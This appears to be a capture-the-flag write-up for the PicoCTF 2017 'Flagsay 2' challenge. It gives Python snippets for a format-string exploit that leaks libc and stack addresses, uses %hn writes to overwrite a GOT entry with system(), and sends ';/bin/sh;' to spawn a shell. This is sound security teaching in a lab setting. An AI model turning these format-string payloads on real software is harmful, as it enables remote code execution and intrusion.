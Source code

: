 # PicoCTF2017_L4_flagsay2

Description:
```
Flagsay 2

Apparently I messed up using system(). I'm pretty sure this one is secure though! I hope flagsay-2 is just as exhilarating as the the first one! Source. Connect on shell2017.picoctf.com:18115.

HINTS
 The buffer isn't on the stack, so you can't use your own pointers. Is there another way to get a pointer?
 Make sure you know about using hn and $ in format strings
```
First things first. We need to leak a libc and stack address so we know what's where.

```python
     #First Leak a LIBC address
      print r.sendline("CAE: "+'%11$p')
      r.recvuntil("CAE: 0x")
      leak = r.recvuntil('/')[:-1].strip()
      libc_base = int(leak,16) - LIBC_OFFSET
 
      print "libc_base = %x " %(libc_base)
      libc.address = libc_base

      # Grab a stack leak. Need to use this to rewrite existing values on the stack
      # to point to other values on the Stack that will then be used to point to the GOT
      print r.sendline("CAE: "+'%9$p')
      r.recvuntil("CAE: 0x")
      leak_stack = int(r.recvuntil('/')[:-1].strip(),16)
      print "Stack leak: " + hex(leak_stack)
```

Next, I found a pointer on the stack that pointed to another place on the stack. Using lower 2Bytes of the leaked stack address to make it point where I needed it. Then update its value

```python
      # Grab the lower 16bits, since we can only write 16 bit vaules at a time
      valtowrite1 = (leak_stack & 0xFFFF) + 6
      print hex(valtowrite1)  

      # Found a value on the stack to abuse. overwrite its lower 16bits
      payload  = ''
      payload += "%{}c%17$hn".format(int(valtowrite1-0x85))
      print r.sendline(payload)
```
Now it's time to get a value on the stack to point to a GOT address that I want to overwrite:
```python
      # Break our planned GOT overwrite into 2 16bit values
      GOT_ADDR1 = (GOT_OVERWRITE & 0xFFFF)
      GOT_ADDR2 = GOT_OVERWRITE >> 16

      #Left commented out debug code used to figure out the offsets to subtract
      payload  = ''
      #payload += "%{}c%9$hn".format(int(0x4141-0x81))
      payload += "%{}c%9$hn".format(int(GOT_ADDR1-0x81))
      print r.sendline(payload)

      payload  = ''
      #payload += "%{}c%53$hn".format(int(0x4242-0x81))
      payload += "%{}c%53$hn".format(int(GOT_ADDR2-0x81))
      print r.sendline(payload)
```
The stack value is ready to go. Now to update it.

```python
      # With the two writes above, the GOT address to overwrite is programmed
      # into the 16th stack position. Overwrite the lower 16bits of the address and hope
      # that the alignment works ok
      LIBC_SYSTEM = (libc.symbols['system'] & 0xFFFF)
      payload  = ''
      payload += "%{}c%16$hn".format(int(LIBC_SYSTEM-0x81))
      print r.sendline(payload)

      # Since libc will be loaded at different addresses each time
      #  the first 2 bytes (16 bits) of the offset of the chosen GOT pointer
      #  may not be the same as our chosen system address. 
      # But eventually it will be, so keep trying
      print r.sendline(";/bin/sh;")
      print "libc system = %x " %(libc.symbols['system'])
      print "written:    = %x " %(LIBC_SYSTEM)
```

As the commented code states. The upper 16bits or 2Bytes of the address on the GOT hopefully align.
If they are the same as our `system()` address, then we'll get a shell. Otherwise the application will segfault.
Just keep trying until it is successful.

Full exploit code in the [exploit.py](exploit.py) file.
